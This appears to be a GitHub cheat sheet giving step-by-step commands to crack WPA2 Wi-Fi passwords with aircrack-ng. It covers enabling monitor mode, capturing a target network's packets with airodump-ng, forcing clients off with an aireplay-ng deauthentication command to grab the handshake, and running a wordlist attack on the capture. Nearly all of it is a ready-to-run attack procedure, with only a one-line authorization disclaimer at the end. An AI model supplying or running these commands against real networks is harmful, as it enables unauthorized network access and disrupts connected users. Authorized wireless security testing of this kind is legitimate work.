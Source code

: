 # WPA2 Packet Capture and Dictionary Cracking Cheat Sheet

## Prerequisites
Ensure `aircrack-ng` is installed:
```bash
sudo dnf install aircrack-ng
```

## Custom Scripts
### Enable Monitor Mode
```bash
sudo ./monitor -on
```

### Disable Monitor Mode
```bash
sudo ./monitor -off
```

## Step-by-Step Guide

### 1. Enable Monitor Mode
```bash
sudo ./monitor -on
```

### 2. Start Packet Capture with Airodump-ng
Identify your target network's BSSID and channel:
```bash
sudo airodump-ng wlo1
```

Start capturing packets for the target network:
```bash
sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlo1
```
Replace `<BSSID>` with the BSSID of the target network and `<CHANNEL>` with the channel number.

### 3. Capture WPA2 Handshake
Optionally, deauthenticate a client to force a handshake capture:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT> wlo1
```
Replace `<CLIENT>` with the MAC address of a connected client.

### 4. Verify Handshake Capture
Ensure that you have successfully captured the handshake. Look for "WPA handshake" in the top-right corner of the airodump-ng output.

### 5. Perform Dictionary Attack with Aircrack-ng
```bash
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
```
Replace `/path/to/wordlist.txt` with the path to your wordlist and `<BSSID>` with the BSSID of the target network.

### 6. Disable Monitor Mode
```bash
sudo ./monitor -off
```

## Notes
- Ensure you have the proper authorization to test the network security, as unauthorized access is illegal.
- Replace `wlo1` with your network adapter's name if different.
```

